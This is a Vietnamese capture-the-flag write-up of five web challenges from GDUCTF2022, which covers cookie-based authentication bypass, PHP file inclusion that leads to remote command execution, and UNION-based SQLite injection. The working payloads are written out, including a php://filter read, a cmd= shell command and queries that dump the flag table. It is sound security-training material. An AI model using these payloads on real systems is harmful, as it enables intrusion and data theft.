



# GDUCTF2022

Giải lại và viết writeups các bài web trong giải GDUCTF2022

## Simple W3B

Trang web này là một theme trên boostrap được clone về. Mình thử xem source code và các chức năng trên trang web thì không thấy có gì nổi bật


Sử dụng dirsearch để scan trang web 


Đọc file package.json và mình thấy được flag


**Flag: GDUCTF{ju5t_s1mpl3_w3b_ch4ll3ng3_t0_w4rmUP}**

## Pika Pikachuuu

Trang web này chỉ có giao diện, các chức năng trên trang web này đều không khả dụng


Sử dụng dirsearch để scan trang web, mình phát hiện có tồn tại trang `/admin`


Truy cập vào `/admin` thì mình thấy có thông báo "Go out! Only real admin can enter here!!". Vậy ở đây có chức năng xác thực người dùng truy cập



Check response thì mình thấy `Set-Cookie: role=normal_user`, có thể trang web xác thực thông qua Cookie này


Vậy nên mình thêm vào request của mình `Cookie: role=admin` để bypass authen và response của mình trả về flag


**Flag: GDUCTF{pika_pika_pikachuuuuuuu}**

## Collect Me

Khi mình click vào start thì chương trình chuyển hướng đến `/char/0`. Nội dung ở trang này là một kí tụ


Đổi sang `/char/1` thì nội dung là một kí tự khác


Mình đoán rằng từng kí tự này nối với nhau sẽ tạo nên một đoạn văn bản hợp lệ

Viết code python

```py
import requests
i=0
while True:
    res=requests.get(f"http://127.0.0.1:20103/char/{i}").text
    if res=="Too long":
        break
    else:
        print(res,end="")
        i+=1
```

Kết quả

```
Don’t cry because it’s over, smile because it happened.I’m selfish, impatient and a little insecure. I make mistakes, I am out of control and at times hard to handle. But if you can’t handle me at my worst, then you sure as hell don’t deserve me at my best. You’ve gotta dance like there’s nobody watching, Love like you’ll never be hurt, Sing like there’s nobody listening, And live like it’s heaven on earth.Thanks for your reading!!! Here your flag: GDUCTF{You only live once, but if you do it right, once is enough.}Something went wrong
```

**Flag: GDUCTF{You only live once, but if you do it right, once is enough.}**

## Content Inclusion

Các trang trên chương trình này được truy cập thông qua `?page=`


Mình thử sửa `?page=abc` và kết quả trả về lỗi. Từ đo mình suy ra được chương trình này sử dụng `include()` để import các page khác

Dự đoán code ở phần include này là

```php
$path = $_GET('page');
include($path.'.php');
```


Đầu tiên mình thử sử dụng null byte để bypass thì bị fail ngay nên mình chỉ có thể tìm một file php nào đó có thể control được thôi



Mình thử sử dụng data wrapper để xem nội dung của file functions

```
?page=php://filter/convert.base64-encode/resource=includes/functions
```


Không có gì hot ngoài việc mình đoán đúng code đoạn include file php

```php
<?php

...
    
function page_content()
{
    $page = isset($_GET['page']) ? $_GET['page'] : 'home';
    $path = $page . '.php';
    include($path);
}

/**
 * Starts everything and displays the template.
 */
function init()
{
    require config('template_path') . '/template.php';
}

```

Nên mình sẽ quay qua kiểm tra xem các file đã biết như

```
includes/config
content/home
content/about-us
content/products
content/contact
```

Đến trang `content/about-us` thì mình thấy có một đoạn code php bị comment 

```php
<?php 
	// include "../includes/debug.php";
?>
```

Có thể có sự tồn tại của file `/includes/debug.php` này trên server nên mình sẽ thử đọc nó

```php
<?php
	// Debug for developer
	system($_GET["cmd"]);
?>
```

File này có thể thực thi lệnh shell thông qua `?cmd=` nên mình sẽ thử sử dụng file này để khai thác

Đến đây là có thể RCE được rồi, việc còn lại là tìm flag thôi


Mình có thể thấy một file khả nghi `/super_saiyan_flag.txt`


```
?page=includes/debug&cmd=cat /super_saiyan_flag.txt
```



**Flag: GDUCTF{C0nt3nt_1nclus10n_4s_d4ng3r0us_4s_F1l3_1nclus10n}**

## Learn Query

Giao diện trang web là một cửa hàng bán các thẻ bài Yu-Gi-Oh


Các chức năng không có gì đặc biệt ngoài việc các sản phẩm được hiển thị thông qua `/item?id=`


Mình thử fuzz tham số id này `/item?id=1'` thì trang web báo lỗi


Thử với các toán tử logic `/item?id=1 and 1=2-- -` → trang web dính lỗi SQLi ở phần này


Vì kết quả của câu truy vấn được trả về trên response nên mình sẽ thử sử dụng toán tử union để khai thác lỗ hổng

Mình xác định được số cột ở câu query này là 4


Và mình xác định được dữ liệu ở cột thứ 3 là string → mình sẽ khai thác dữ liệu ở cột này


Xác định loại CSDL mà chương trình sử dụng

```sql
Oracle		SELECT banner FROM v$version
			SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL		SELECT @@version
SQLite		select sqlite_version();
```

Và mình xác định được CSDL của chương trình này sử dụng là SQLite


Khai thác tên bảng hợp lệ và mình tìm được một bảng `secret_flag`

```
/item?id=1+union+select+1,2,tbl_name,4+FROM+sqlite_master+WHERE+type='table'+and+tbl_name+NOT+like+'sqlite_%'--+-
```


Khai thác các cột hợp lệ và mình tìm được cột `flag`

```
/item?id=1+union+select+1,2,sql,4+FROM+sqlite_master+WHERE+type!='meta'+AND+sql+NOT+NULL+AND+name+='secret_flag'--+-
```


Lấy flag 

```
/item?id=1+union+select+1,2,flag,4+FROM+secret_flag--+-
```


**Flag: GDUCTF{Le4rn_qu3ry_w1th_SQL_Inj3ct10n_____}**